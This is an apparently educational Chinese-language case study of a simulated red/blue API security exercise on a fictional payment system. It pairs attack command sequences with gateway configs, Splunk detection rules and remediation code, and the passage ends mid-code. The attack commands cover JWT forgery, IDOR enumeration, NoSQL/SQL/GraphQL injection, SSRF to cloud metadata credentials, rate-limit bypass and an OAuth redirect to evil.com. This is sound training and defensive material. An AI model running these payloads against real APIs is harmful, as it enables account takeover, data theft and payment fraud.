


## 案例六：API安全红蓝对抗

### 案例概述

随着企业数字化转型深入，RESTful API、GraphQL、gRPC 等接口已成为业务系统的核心动脉。API 不再是"附属功能"，而是承载支付、身份认证、数据交换等关键流程的基础设施。然而，API 安全往往是企业安全体系中最薄弱的环节——OWASP 2023 年度报告显示，**95% 的生产 API 存在安全缺陷**，且 50% 的数据泄露事件与 API 漏洞直接相关。

本案例模拟一家金融科技公司（核心支付系统通过 RESTful API 对外提供服务，日均请求量超过 2000 万次），红蓝双方围绕 API 安全展开为期 10 天的专项对抗演练。红队目标是从互联网入口突破，利用 API 层面的认证缺陷、授权绕过、注入漏洞等获取敏感金融数据；蓝队目标是构建 API 安全监控体系，检测并阻断所有攻击行为，同时验证现有 WAF 和 API 网关的防护有效性。

### API 安全威胁全景

在进入具体攻防之前，必须理解 API 安全面的全貌。不同于传统 Web 应用，API 攻击有其独特的攻击面和威胁模型。

#### OWASP API Security Top 10（2023 版）

| 排名 | 漏洞类型 | 核心风险 | 本案例覆盖 |
|------|----------|----------|-----------|
| API1 | BOLA（Broken Object Level Authorization） | 未授权访问其他用户数据 | ✅ |
| API2 | Broken Authentication | 认证机制缺陷 | ✅ |
| API3 | Broken Object Property Level Authorization | 属性级授权缺失 | ✅ |
| API4 | Unrestricted Resource Consumption | 资源消耗无限制 | ✅ |
| API5 | Broken Function Level Authorization | 功能级授权绕过 | ✅ |
| API6 | Unrestricted Access to Sensitive Business Flows | 敏感业务流无限制 | ❌ |
| API7 | Server-Side Request Forgery (SSRF) | 服务端请求伪造 | ✅ |
| API8 | Security Misconfiguration | 安全配置错误 | ✅ |
| API9 | Improper Inventory Management | API 资产管理不当 | ✅ |
| API10 | Unsafe Consumption of APIs | 不安全的 API 消费 | ❌ |

#### API 与传统 Web 攻击的差异



传统 Web 攻击主要针对页面渲染和表单交互；API 攻击则直接针对数据载荷和业务逻辑，绕过了前端 UI 的安全约束。这意味着 API 攻击的"跳板"更少、效率更高——一次 API 调用可能等于百次表单提交。

### 红队攻击全流程

#### 第一阶段：API 资产发现与信息收集

攻击者面对 API 系统的第一步不是直接打漏洞，而是"摸清家底"。API 资产的暴露面远比想象中大。

**Swagger/OpenAPI 文档泄露检测**：

```bash
# 常见 API 文档端点枚举
for path in swagger.json swagger-ui/ api-docs openapi.json \
    docs/ redoc/ v1/api-docs v2/api-docs \
    .well-known/openapi.json wadl/ wsdl/; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        "https://api.target.com/${path}" \
        -H "Accept: application/json")
    echo "${path} -> HTTP ${code}"
done
```

Swagger 文档是 API 攻击者的"金矿"——它完整暴露了所有端点、参数类型、认证要求和数据模型。据统计，约 15% 的生产 API 在可预测路径下暴露了文档端点。红队只需通过简单的路径枚举就能获取完整的攻击地图。

**子域名与端点枚举**：

```bash
# 使用子域名发现隐藏的 API 端点
subfinder -d target.com -silent | httpx -silent -status-code -title

# 递归目录枚举
feroxbuster -u https://api.target.com/ \
    -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints.txt \
    --rate-limit 30 \
    -t 20 \
    --extensions json,xml,yaml

# 使用 ffuf 进行 API 路径枚举
ffuf -u https://api.target.com/FUZZ \
    -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints.txt \
    -mc 200,201,301,302,403 \
    -fs 4242 \
    -H "Authorization: Bearer <valid_token>"

# 使用 Arjun 发现隐藏参数
arjun -u https://api.target.com/users \
    -m GET POST \
    -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt \
    --rate-limit 10
```

> **红队技巧**：API 端点通常遵循命名规范（如 `/api/v1/`、`/api/v2/`），枚举时应优先使用 API 专用字典。`fs`（过滤响应大小）参数至关重要——它能过滤掉默认的 404 页面噪音。

**技术栈指纹识别**：

```bash
# 通过响应头识别技术栈
curl -I https://api.target.com/
# X-Powered-By: Express          -> Node.js/Express
# Server: gunicorn/20.1.0        -> Python/Flask/Django
# X-Runtime: 0.042               -> Ruby on Rails
# Content-Type: application/problem+json  -> RFC 7807 错误格式

# GraphQL 内省查询（在无认证情况下）
curl -X POST https://api.target.com/graphql \
    -H "Content-Type: application/json" \
    -d '{"query":"{ __schema { types { name fields { name type { name } } } } }"}'
```

GraphQL 内省查询是 API 攻击者的重要发现手段。如果未禁用，它会返回完整的 API Schema，包括所有类型、字段、参数甚至注释。

#### 第二阶段：认证机制攻击

认证是 API 安全的第一道防线，也是攻击者最优先的突破口。

**JWT 攻击矩阵**：

| 攻击手法 | 原理 | 工具 | 成功率 |
|----------|------|------|--------|
| 算法混淆（alg:none） | 移除签名验证 | jwt_tool.py | 中（依赖实现） |
| HS256/RS256 混淆 | 用公钥伪造 HMAC 签名 | jwt_tool.py / jwt-cracker | 高（若未校验） |
| 密钥爆破 | 暴力破解对称密钥 | hashcat / jwt-cracker | 中（依赖密钥强度） |
| 密钥泄露 | 从源码/配置获取密钥 | gitdorking / trufflehog | 高 |
| 签名剥离 | 移除算法字段 | Burp Suite | 中 |
| JWT 填充攻击（jwk） | 注入恶意 JWK 头 | jwt_tool.py | 中（依赖实现） |

**具体攻击操作**：

```bash
# 1. JWT 算法混淆攻击（RS256 -> HS256）
# 原理：服务端使用公钥验证RS256签名，若攻击者将alg改为HS256
#       并用公钥内容作为HMAC密钥签名，服务端可能接受伪造token
python3 jwt_tool.py <token> -X k -pk public_key.pem

# 2. JWT 无签名攻击（alg:none）
python3 jwt_tool.py <token> -X n

# 3. JWT 密钥爆破（使用 hashcat）
# 将 token 转为 hashcat 格式
python3 jwt_tool.py <token> -C > hash.txt
hashcat -m 16500 hash.txt /usr/share/wordlists/rockyou.txt

# 4. JWT 声明注入
# 篡改 payload 中的 role 字段
python3 jwt_tool.py <token> -pc role -pv admin

# 5. 从代码仓库泄露的密钥
# 使用 trufflehog 扫描 GitHub
trufflehog github --repo=https://github.com/target-org/target-repo
```

**身份认证绕过**：

```bash
# 1. 绕过认证检查
# 尝试无 token 访问受保护端点
curl https://api.target.com/api/v1/users/me
curl https://api.target.com/api/v1/admin/health

# 2. Token 类型混淆
curl https://api.target.com/api/v1/users \
    -H "Authorization: Basic <base64 encoded>"
curl https://api.target.com/api/v1/users \
    -H "Authorization: ApiKey <api_key>"
curl https://api.target.com/api/v1/users \
    -H "X-Auth-Token: <token>"

# 3. OAuth 令牌操纵
# 修改 redirect_uri 绕过验证
curl -X POST https://auth.target.com/token \
    -d "grant_type=authorization_code&code=<code>&redirect_uri=https://evil.com/callback"
```

#### 第三阶段：授权缺陷利用

BOLA（Broken Object Level Authorization）连续多年位居 OWASP API Security Top 10 榜首，因为它是 API 系统中最常见、最容易利用的漏洞。

**BOLA/IDOR 攻击**：

```bash
# 1. 水平越权 - 修改资源ID访问他人数据
# 当前用户: user_abc, token 对应 user_abc
curl https://api.target.com/api/v1/users/user_abc/transactions \
    -H "Authorization: Bearer <token>"

# 改为访问 user_def 的交易记录
curl https://api.target.com/api/v1/users/user_def/transactions \
    -H "Authorization: Bearer <token>"

# 2. 批量 IDOR 枚举
# 使用 ffuf 进行自动化遍历
ffuf -u https://api.target.com/api/v1/users/FUZZ/transactions \
    -w <(seq -w 1000 9999) \
    -H "Authorization: Bearer <token>" \
    -mc 200 \
    -fs 0 \
    -o idor_results.json

# 3. UUID 可预测性分析
# 采集已知 UUID，分析其生成规律
curl -s https://api.target.com/api/v1/users/me/orders \
    -H "Authorization: Bearer <token>" | jq '.[].order_id'

# 4. 对象属性遍历（IDOR + 枚举组合）
for endpoint in email phone address ssn credit_card; do
    resp=$(curl -s -w "\n%{http_code}" \
        "https://api.target.com/api/v1/users/user_def?fields=${endpoint}" \
        -H "Authorization: Bearer <token>")
    echo "${endpoint}: $(echo "$resp" | head -1)"
done
```

**功能级授权绕过**：

```bash
# 1. HTTP 方法篡改（尝试不同 HTTP 方法）
for method in GET POST PUT DELETE PATCH OPTIONS HEAD; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -X ${method} https://api.target.com/api/v1/admin/users \
        -H "Authorization: Bearer <user_token>")
    echo "${method}: HTTP ${code}"
done

# 2. API 版本降级
# 某些旧版本 API 可能缺少权限检查
curl https://api.target.com/v1/admin/config \
    -H "Authorization: Bearer <user_token>"
curl https://api.target.com/v0/admin/config \
    -H "Authorization: Bearer <user_token>"

# 3. 路径遍历绕过
curl https://api.target.com/api/v1/users/../../../admin/config \
    -H "Authorization: Bearer <user_token>"

# 4. 路径大小写混淆
curl https://api.target.com/api/v1/Admin/Users \
    -H "Authorization: Bearer <user_token>"
```

#### 第四阶段：注入攻击

API 系统的注入攻击面比传统 Web 更广，因为涉及 JSON 载荷、GraphQL 查询、NoSQL 数据库等多种技术栈。

**GraphQL 专项攻击**：

```bash
# 1. 深度嵌套查询（DoS 攻击）
curl -X POST https://api.target.com/graphql \
    -H "Content-Type: application/json" \
    -d '{
        "query": "{ users { orders { items { product { reviews { author { friends { name } } } } } } } }"
    }'

# 2. 批量查询攻击（Batch Query DoS）
curl -X POST https://api.target.com/graphql \
    -H "Content-Type: application/json" \
    -d '[
        {"query": "{ users { id email } }"},
        {"query": "{ users { id email } }"},
        {"query": "{ users { id email } }"}
    ]'

# 3. Alias-based 批量查询（单次请求多个查询）
curl -X POST https://api.target.com/graphql \
    -H "Content-Type: application/json" \
    -d '{
        "query": "query { a1: user(id: 1) { email } a2: user(id: 2) { email } a3: user(id: 3) { email } a4: user(id: 4) { email } }"
    }'

# 4. 内省查询禁用检查
curl -X POST https://api.target.com/graphql \
    -H "Content-Type: application/json" \
    -d '{"query":"{ __schema { queryType { name } } }"}'
```

**NoSQL 注入攻击**：

```bash
# 1. MongoDB 操作符注入
curl -X POST https://api.target.com/api/v1/login \
    -H "Content-Type: application/json" \
    -d '{"username": {"$gt": ""}, "password": {"$gt": ""}}'

# 2. 数组类型注入
curl -X POST https://api.target.com/api/v1/login \
    -H "Content-Type: application/json" \
    -d '{"username": ["$ne", ""], "password": ["$ne", ""]}'

# 3. $where 表达式注入
curl -X POST https://api.target.com/api/v1/users/search \
    -H "Content-Type: application/json" \
    -d '{"filter": {"$where": "this.email == \"admin@target.com\""}}'

# 4. Redis 命令注入
curl -X POST https://api.target.com/api/v1/cache/lookup \
    -H "Content-Type: application/json" \
    -d '{"key": "user:*\r\nINFO server\r\n"}'
```

**SQL 注入（API 参数注入）**：

```bash
# 1. 通过搜索参数注入
sqlmap -u "https://api.target.com/api/v1/users?search=test" \
    --headers="Authorization: Bearer <token>" \
    --batch --level=3 --risk=2 \
    --dbms=mysql

# 2. 通过 JSON 参数注入
sqlmap -u "https://api.target.com/api/v1/login" \
    --data='{"username":"admin","password":"test"}' \
    --headers="Authorization: Bearer <token>\nContent-Type: application/json" \
    --batch --level=4 --dbms=mysql

# 3. ORDER BY 排序注入
curl "https://api.target.com/api/v1/users?sort=name;SELECT SLEEP(5)--" \
    -H "Authorization: Bearer <token>"
```

**SSRF 攻击**：

```bash
# 1. URL 参数 SSRF
curl -X POST https://api.target.com/api/v1/webhook/test \
    -H "Content-Type: application/json" \
    -d '{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}'

# 2. JSON body SSRF
curl -X POST https://api.target.com/api/v1/image/preview \
    -H "Content-Type: application/json" \
    -d '{"image_url": "http://169.254.169.254/latest/meta-data/"}'

# 3. 通过 redirect SSRF（OAuth 场景）
curl -X POST https://api.target.com/api/v1/share/preview \
    -H "Content-Type: application/json" \
    -d '{"redirect_url": "http://169.254.169.254/latest/meta-data/"}'
```

#### 第五阶段：速率限制绕过

速率限制是 API 防护的重要环节，但很多实现存在可绕过的缺陷。

```bash
# 1. IP 头伪造（最常见绕过方式）
for header in X-Forwarded-For X-Real-IP X-Originating-IP \
    X-Client-IP X-Remote-Addr X-Forwarded-Host \
    Forwarded CF-Connecting-IP True-Client-IP; do
    echo "Testing ${header}..."
    for i in $(seq 1 30); do
        code=$(curl -s -o /dev/null -w "%{http_code}" \
            "https://api.target.com/api/v1/login" \
            -H "${header}: 1.${RANDOM}.${RANDOM}.${RANDOM}" \
            -X POST \
            -d '{"username":"test","password":"test"}')
        if [ "${code}" != "429" ]; then
            echo "  ${header} NOT rate limited at request #${i} (HTTP ${code})"
            break
        fi
    done
done

# 2. HTTP 头污染
# 利用代理服务器对多个 X-Forwarded-For 的处理差异
curl -H "X-Forwarded-For: 1.1.1.1, 2.2.2.2, 3.3.3.3" \
    https://api.target.com/api/v1/login

# 3. 分布式绕过（使用代理池）
while read -r proxy; do
    curl -x "${proxy}" \
        -H "Content-Type: application/json" \
        -d '{"username":"test","password":"test123"}' \
        -o /dev/null -s -w "%{http_code}\n" \
        https://api.target.com/api/v1/login
done < proxies.txt

# 4. 参数大小写混淆
curl https://api.target.com/api/v1/Users \
    -H "Authorization: Bearer <token>"
curl https://api.target.com/API/V1/users \
    -H "Authorization: Bearer <token>"

# 5. 竞态条件攻击（Race Condition）
# 使用 Turbo Intruder 并发发送请求
for i in $(seq 1 50); do
    curl -s -o /dev/null \
        "https://api.target.com/api/v1/coupon/apply?code=DISCOUNT50" \
        -H "Authorization: Bearer <token>" &
done
wait
echo "Coupon applied multiple times via race condition"
```

> **关键洞察**：速率限制绕过的核心在于"身份"的多义性——服务端用什么标识（IP、Token、用户ID）来限速，攻击者就伪造什么标识。防御方必须在网关层统一处理，而非依赖后端应用自行判断。

#### 第六阶段：业务逻辑漏洞利用

API 安全中最隐蔽的威胁来自业务逻辑漏洞——这些漏洞不在 OWASP Top 10 中，却直接关系到资金安全。

```bash
# 1. 价格篡改攻击（支付金额修改）
curl -X POST https://api.target.com/api/v1/orders \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer <token>" \
    -d '{"product_id": "P001", "quantity": 1, "price": 0.01, "currency": "USD"}'

# 2. 优惠券重复使用（竞态条件）
for i in $(seq 1 100); do
    curl -s -o /dev/null -w "HTTP %{http_code}\n" \
        -X POST https://api.target.com/api/v1/orders/apply-coupon \
        -H "Content-Type: application/json" \
        -H "Authorization: Bearer <token>" \
        -d '{"coupon_code": "SAVE20"}' &
done
wait

# 3. 负数量攻击
curl -X POST https://api.target.com/api/v1/orders \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer <token>" \
    -d '{"product_id": "P001", "quantity": -1}'

# 4. 整数溢出攻击
curl -X POST https://api.target.com/api/v1/orders \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer <token>" \
    -d '{"product_id": "P001", "quantity": 999999999999}'
```

### 蓝队防御体系

蓝队在 API 安全对抗中不仅是被动检测，更需要构建主动防御体系。本案例中蓝队的防御策略分为三层：网关层防御、应用层检测、监控层响应。

#### 网关层防御（第一道防线）

```yaml
# Kong API Gateway 配置示例
_format_version: "3.0"

services:
  - name: payment-service
    url: http://payment-backend:8080
    routes:
      - name: payment-api
        paths:
          - /api/v1/payments
        methods:
          - POST
          - GET
    plugins:
      # 速率限制
      - name: rate-limiting
        config:
          minute: 60
          hour: 1000
          policy: redis
          redis_host: redis-cluster
          redis_port: 6379
          fault_tolerant: true
          hide_client_headers: false
      
      # IP 限制（拒绝已知恶意IP）
      - name: ip-restriction
        config:
          deny:
            - 185.220.100.0/24    # 恶意IP段
            - 45.33.32.0/24
          status: 403
          message: "Access denied"
      
      # JWT 认证
      - name: jwt
        config:
          claims_to_verify:
            - exp
            - iat
          maximum_expiration: 3600
          uri_param_names:
            - jwt
      
      # 请求大小限制
      - name: request-size-limiting
        config:
          allowed_payload_size: 10
          size_unit: megabytes
          require_content_length: true
```

#### 应用层检测规则（Splunk/SIEM）

```spl
// 检测 API 暴力破解攻击
index=api_logs status=401 OR status=403
| stats count as failed_attempts 
        dc(api_endpoint) as unique_endpoints
        values(api_endpoint) as endpoints
  by client_ip
| where failed_attempts > 50
| eval risk_level=case(
    failed_attempts > 500, "Critical",
    failed_attempts > 200, "High",
    failed_attempts > 50, "Medium",
    true(), "Low"
)
| eval alert_message=client_ip . " has " . failed_attempts . 
    " failed auth attempts on " . unique_endpoints . " endpoints"

// 检测 IDOR/BOLA 攻击
index=api_logs api_endpoint="/api/v1/users/*/transactions" status=200
| stats dc(user_id) as unique_users_accessed
        count as total_requests
        dc(api_endpoint) as unique_endpoints
  by client_ip, user_token
| where unique_users_accessed > 5
| eval attack_type=case(
    unique_users_accessed > 20, "Confirmed IDOR",
    unique_users_accessed > 10, "Probable IDOR",
    true(), "Suspicious"
)

// 检测 GraphQL 异常查询
index=api_logs api_endpoint="/graphql"
| eval is_introspection=if(match(query, "__schema|__type"), 1, 0)
| eval is_depth_attack=if(match(query, "(\{.*\{.*\{.*\{)"), 1, 0)
| eval is_sensitive_query=if(match(query, "(?i)(password|secret|token|credit_card|ssn)"), 1, 0)
| where is_introspection=1 OR is_depth_attack=1 OR is_sensitive_query=1
| stats count by client_ip, is_introspection, is_depth_attack, is_sensitive_query

// 检测 SSRF 攻击尝试
index=api_logs 
| eval request_body=urldecode(request_body)
| search request_body="169.254" OR request_body="127.0.0.1" OR 
    request_body="localhost" OR request_body="metadata.google" OR
    request_body="192.168." OR request_body="10.0."
| stats count by client_ip, api_endpoint, request_body
| where count > 3

// 检测速率限制绕过
index=api_logs 
| eval xff_first=mvindex(split(X-Forwarded-For, ","), 0)
| stats count as request_count dc(xff_first) as unique_ips 
  by client_ip, api_endpoint
| where unique_ips > 10 AND request_count > 100
| eval bypass_attempt="IP spoofing suspected"

// 检测 API 枚举扫描
index=api_logs status!=404
| stats count as endpoint_count dc(api_endpoint) as unique_endpoints
  by client_ip
| where unique_endpoints > 50
| eval scan_type=case(
    unique_endpoints > 200, "Full API Enumeration",
    unique_endpoints > 100, "Moderate Enumeration",
    unique_endpoints > 50, "Light Enumeration"
)
```

#### 监控层响应体系



### 演练详细成果

#### 发现的 API 安全问题（按严重程度排序）

| 严重程度 | 漏洞编号 | 漏洞描述 | 影响范围 | 修复优先级 |
|----------|---------|----------|----------|-----------|
| 严重 | VULN-001 | Swagger 文档公开暴露，暴露全部 327 个 API 端点和数据模型 | 全局 | 立即 |
| 严重 | VULN-002 | JWT 签名使用 HS256 + 弱密钥（8字符），10分钟内可暴力破解 | 全局认证 | 立即 |
| 严重 | VULN-003 | IDOR 漏洞存在于 12 个用户数据接口，可跨用户访问交易记录 | 12个接口 | 24小时内 |
| 高危 | VULN-004 | GraphQL 端点未限制深度查询，可执行 10 层以上嵌套查询 | GraphQL 服务 | 24小时内 |
| 高危 | VULN-005 | SSRF 漏洞存在于图片预览接口，可访问 AWS 元数据 | 图片服务 | 24小时内 |
| 高危 | VULN-006 | 速率限制仅基于 IP，可通过 X-Forwarded-For 绕过 | 全局 | 48小时内 |
| 中危 | VULN-007 | API 版本管理混乱，v0/v1/v2 三个版本同时在线且权限不一致 | 多版本接口 | 1周内 |
| 中危 | VULN-008 | NoSQL 注入漏洞存在于登录接口 | 登录模块 | 1周内 |
| 低危 | VULN-009 | 错误响应泄露堆栈信息和数据库类型 | 全局 | 1月内 |
| 低危 | VULN-010 | CORS 配置过于宽松，允许任意 Origin | 全局 | 1月内 |

#### 修复方案实施

**VULN-001：文档访问控制**

```nginx
# Nginx 配置：限制 API 文档访问
location ~ ^/(swagger|api-docs|openapi|redoc|wadl|graphql) {
    # 仅允许内网访问
    allow 10.0.0.0/8;
    allow 172.16.0.0/12;
    allow 192.168.0.0/16;
    deny all;
    
    # 或通过 IP + Token 双重验证
    # set $auth 0;
    # if ($http_x_api_key = "internal-secret-key") { set $auth 1; }
    # if ($auth = 0) { return 403; }
}
```

**VULN-002：JWT 安全加固**

```python
# JWT 安全配置修复
import jwt
from datetime import datetime, timedelta
from cryptography.hazmat.primitives import serialization

# 修复1: 使用 RS256 + RSA 2048+ 密钥
private_key = rsa.generate_private_key(
    public_exponent=65537,
    key_size=4096  # 使用4096位RSA密钥
)

def create_token(user_id, role):
    payload = {
        "sub": user_id,
        "role": role,
        "iat": datetime.utcnow(),
        "exp": datetime.utcnow() + timedelta(minutes=15),  # 短有效期
        "jti": str(uuid.uuid4())  # 唯一标识，用于吊销
    }
    return jwt.encode(payload, private_key, algorithm="RS256")

# 修复2: Token 吊销机制（Redis 黑名单）
def revoke_token(jti):
    redis_client.setex(f"revoked:{jti}", 3600, "1")

def verify_token(token):
    try:
        payload = jwt.decode(token, public_key, algorithms=["RS256"])
        if redis_client.get(f"revoked:{payload['jti']}"):
            raise InvalidTokenError("Token revoked")
        return payload
    except jwt.ExpiredSignatureError:
        raise InvalidTokenError("Token expired")
```

**VULN-003：对象级授权检查**

```python
# 统一的 BOLA 防御中间件
from functools import wraps

def require_object_authorization(resource_type):
    def decorator(f):
        @wraps(f)
        async def wrapper(request, resource_id, *args, **kwargs):
            current_user = get_current_user(request)
            
            # 检查用户是否有权访问该资源
            ownership = await check_ownership(
                resource_type=resource_type,
                resource_id=resource_id,
                user_id=current_user.id
            )
            
            if not ownership:
                # 返回统一的错误信息（不泄露资源是否存在）
                raise HTTPException(
                    status_code=404, 
                    detail="Resource not found"
                )
            
            # 记录访问日志（用于审计）
            await audit_log.record(
                user_id=current_user.id,
                resource_type=resource_type,
                resource_id=resource_id,
                action=request.method,
                timestamp=datetime.utcnow()
            )
            
            return await f(request, resource_id, *args, **kwargs)
        return wrapper
    return decorator

# 使用示例
@app.get("/api/v1/users/{user_id}/transactions")
@require_object_authorization("transaction")
async def get_transactions(request, user_id: str):
    # 到达此处时已确认 user_id 有权访问
    return await db.get_user_transactions(user_id)
```

**VULN-006：速率限制加固**

```python
# 多维度速率限制策略
from redis import Redis
import hashlib

redis = Redis()

class MultiDimensionRateLimiter:
    """基于多维度的速率限制器，防止IP伪造绕过"""
    
    def __init__(self):
        self.limits = {
            "per_ip": {"window": 60, "max": 100},
            "per_token": {"window": 60, "max": 200},
            "per_endpoint": {"window": 60, "max": 1000},
            "per_ip_endpoint": {"window": 60, "max": 50},
        }
    
    def check_rate_limit(self, request):
        # 1. 基于真实连接IP（不信任 X-Forwarded-For）
        real_ip = self._get_trusted_ip(request)
        
        # 2. 基于认证 Token
        token_hash = self._hash_token(request.headers.get("Authorization"))
        
        # 3. 基于 API 端点
        endpoint = request.url.path
        
        # 检查所有维度
        for dimension, config in self.limits.items():
            key = self._make_key(dimension, real_ip, token_hash, endpoint)
            current = redis.incr(key)
            if current == 1:
                redis.expire(key, config["window"])
            if current > config["max"]:
                return False, dimension
        
        return True, None
    
    def _get_trusted_ip(self, request):
        """只信任直接连接的IP，忽略代理头"""
        # 仅当请求经过已知可信代理时才信任 X-Forwarded-For
        trusted_proxies = ["10.0.0.1", "10.0.0.2"]  # 内网代理IP
        if request.client.host in trusted_proxies:
            return request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
        return request.client.host
```

### 红队攻击工具链总结

| 阶段 | 工具 | 用途 | 获取方式 |
|------|------|------|---------|
| 资产发现 | ffuf | API 端点枚举 | GitHub |
| 资产发现 | Arjun | 隐藏参数发现 | pip install arjun |
| 资产发现 | Subfinder | 子域名发现 | go install |
| 认证攻击 | jwt_tool.py | JWT 攻击框架 | GitHub |
| 认证攻击 | hashcat | JWT 密钥爆破 | 官网下载 |
| 注入攻击 | sqlmap | SQL 注入 | sqlmap.org |
| 注入攻击 | graphql-cop | GraphQL 安全测试 | gem install |
| 业务逻辑 | Turbo Intruder | 竞态条件测试 | Burp 插件 |
| 持续测试 | Postman / Insomnia | API 交互测试 | 官网下载 |
| 自动化 | RESTler | API 模糊测试 | GitHub (Microsoft) |

### 常见误区与纠正

| 误区 | 事实 | 正确做法 |
|------|------|---------|
| "API 有 HTTPS 就安全" | HTTPS 仅保证传输加密，不防业务逻辑攻击 | 需要全栈安全策略 |
| "WAF 能防所有 API 攻击" | 传统 WAF 对 JSON 载荷检测能力有限 | 使用 API 专用 WAF (如 Wallarm) |
| "IDOR 是低级漏洞" | IDOR 连续多年 OWASP API Top 10 第一 | 每个资源端点都需要授权检查 |
| "GraphQL 比 REST 更安全" | GraphQL 有独特的攻击面（深度查询、内省） | 限制查询深度和复杂度 |
| "速率限制用 IP 就够了" | IP 可伪造、可共享 | 多维度限速 (IP + Token + 用户) |
| "API 文档是给开发看的" | 文档是攻击者的完整攻击地图 | 生产环境禁用或限制访问 |
| "v1 接口有防护，v0 也有" | 旧版本往往缺少安全补丁 | 下线旧版本 API |

### 进阶：自动化 API 安全测试平台

对于需要长期维护 API 安全的企业，建议构建自动化测试平台：

```python
# 自动化 API 安全扫描框架示例
import asyncio
from dataclasses import dataclass
from enum import Enum

class Severity(Enum):
    CRITICAL = "critical"
    HIGH = "high"
    MEDIUM = "medium"
    LOW = "low"
    INFO = "info"

@dataclass
class SecurityIssue:
    title: str
    severity: Severity
    endpoint: str
    evidence: str
    remediation: str

class APISecurityScanner:
    """自动化 API 安全扫描器"""
    
    def __init__(self, base_url: str, auth_token: str):
        self.base_url = base_url
        self.auth_token = auth_token
        self.issues = []
    
    async def run_full_scan(self):
        """执行完整安全扫描"""
        await asyncio.gather(
            self.check_bola(),
            self.check_auth_bypass(),
            self.check_injection(),
            self.check_rate_limiting(),
            self.check_information_disclosure(),
            self.check_misconfigurations(),
        )
        return self.generate_report()
    
    async def check_bola(self):
        """检查 BOLA/IDOR 漏洞"""
        # 获取一个合法的资源ID
        valid_id = await self.get_valid_resource_id()
        
        # 尝试使用不同用户的token访问
        other_tokens = await self.get_other_user_tokens()
        for token in other_tokens:
            resp = await self.make_request(
                f"/api/v1/resources/{valid_id}",
                headers={"Authorization": f"Bearer {token}"}
            )
            if resp.status == 200:
                self.issues.append(SecurityIssue(
                    title="BOLA/IDOR: 跨用户资源访问",
                    severity=Severity.CRITICAL,
                    endpoint=f"/api/v1/resources/{valid_id}",
